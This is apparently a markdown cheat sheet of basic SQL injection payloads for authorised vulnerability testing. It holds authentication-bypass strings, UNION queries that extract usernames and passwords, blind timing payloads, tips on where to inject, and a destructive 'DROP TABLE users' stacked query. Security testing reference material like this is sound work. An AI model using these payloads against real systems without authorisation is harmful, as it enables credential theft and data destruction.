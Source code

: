 # Basic SQL Injection Payloads Cheat Sheet

A list of common SQL Injection payloads to test for vulnerabilities.  
**Use responsibly and only on systems you have permission to test.**

---

## 1. Basic Authentication Bypass

```
' OR '1'='1' --
" OR "1"="1" --
' OR 1=1--
" OR 1=1--
') OR ('1'='1' --
```

---

## 2. UNION-Based Injection

```
' UNION SELECT NULL, NULL --
' UNION SELECT username, password FROM users --
```

---

## 3. Error-Based Injection

```
' AND 1=CONVERT(int, (SELECT @@version))--
```

---

## 4. Time-Based Blind Injection

```
' OR IF(1=1, SLEEP(5), 0)--
' OR 1=1 WAITFOR DELAY '0:0:5'--
```

---

## 5. Stacked Queries (if supported)

```
'; DROP TABLE users; --
```

---

## 6. Comment/Termination

```
' --
" --
') --
```

---

## 7. Numeric Injection

```
1 OR 1=1
1' OR '1'='1
```

---

## Tips

- Try payloads in different parameters (URL, POST data, cookies, headers).
- Use `ORDER BY` to find the number of columns:  
  `' ORDER BY 1--`, `' ORDER BY 2--`, etc.
- Use `LIMIT` for MySQL:  
  `' LIMIT 1,1 --`
- Use tools like `sqlmap` for automated testing.

---

## References

- [PayloadAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [OWASP SQL Injection Cheat Sheet](https://owasp.org/www-community/attacks/SQL_Injection)